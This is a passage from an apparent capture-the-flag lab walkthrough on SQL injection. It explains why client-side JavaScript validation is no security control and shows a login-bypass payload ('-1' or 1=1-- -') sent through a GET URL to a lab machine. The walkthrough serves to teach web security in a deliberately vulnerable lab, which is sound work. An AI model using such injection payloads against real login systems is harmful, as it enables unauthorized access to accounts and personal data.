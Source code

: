 ##### SQL Injection 3 and 4: URL and POST Injection

Here, the SQL query is the same as the previous one:

<pre><div><span>SELECT</span> uid<span>,</span> name<span>,</span> profileID<span>,</span> salary<span>,</span> passportNr<span>,</span> email<span>,</span> nickName<span>,</span> password <span>FROM</span> usertable <span>WHERE</span> profileID<span>=</span><span>'</span><span>10</span><span>'</span> <span>AND</span> password<span>=</span><span>'</span><span>ce5ca67...</span><span>'</span></div></pre>

But in this case, the malicious user input cannot be injected
directly into the application via the login form because some
client-side controls have been implemented:

<pre><div><div><span>function</span> <span>validateform</span><span>()</span> <span>{</span></div><div>    <span>var</span> <span>profileID</span> <span>=</span> <span>document</span><span>.</span><span>inputForm</span><span>.</span><span>profileID</span><span>.</span><span>value</span><span>;</span></div><div>    <span>var</span> <span>password</span> <span>=</span> <span>document</span><span>.</span><span>inputForm</span><span>.</span><span>password</span><span>.</span><span>value</span><span>;</span></div><br/><div>    <span>if</span> (<span>/</span><span>^</span><span>[</span><span>a-zA-Z0-9</span><span>]*</span><span>$</span><span>/</span><span>.</span><span>test</span>(<span>profileID</span>) <span>==</span> <span>false</span> <span>||</span><span> </span><span>/</span><span>^</span><span>[</span><span>a-zA-Z0-9</span><span>]*</span><span>$</span><span>/</span><span>.</span><span>test</span>(<span>password</span>) <span>==</span> <span>false</span>) <span>{</span></div><div>        <span>alert</span>(<span>"</span><span>The input fields cannot contain special characters</span><span>"</span>)<span>;</span></div><div>        <span>return</span> <span>false</span><span>;</span></div><div>    <span>}</span></div><div>    <span>if</span> (<span>profileID</span> <span>==</span> <span>null</span> <span>||</span> <span>password</span> <span>==</span> <span>null</span>) <span>{</span></div><div>        <span>alert</span>(<span>"</span><span>The input fields cannot be empty.</span><span>"</span>)<span>;</span></div><div>        <span>return</span> <span>false</span><span>;</span></div><div>    <span>}</span></div><div><span>}</span></div></div></pre>

The JavaScript code above requires that both the profileID and the
password only contains characters between a-z, A-Z, and 0-9. Client-side
controls are only there to improve the user experience and is in no way
a security feature as the user has full control over the client and the
data it submits. For example, a proxy tool such as Burp Suite can be
used to bypass the client side JavaScript validation ([https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation](https://portswigger.net/support/using-burp-to-bypass-client-side-javascript-validation)).

**

SQL Injection 3: URL Injection
** This challenge uses a GET request when submitting the login form, as seen here:

![](https://i.imgur.com/9RvTzkK.png)

The login and the client-side validation can then easily be bypassed by going directly to this URL:

http://MACHINE_IP:5000/sesqli3/login?profileID=-1' or 1=1-- -&password=a

The browser will automatically urlencode this for us. Urlencoding is needed since the [HTTP]() protocol does not support all characters in the request. When urlencoded, the URL looks as follows:

http://MACHINE_IP:5000/sesqli3/login?profileID=-1%27%20or%201=1--%20-&password=a
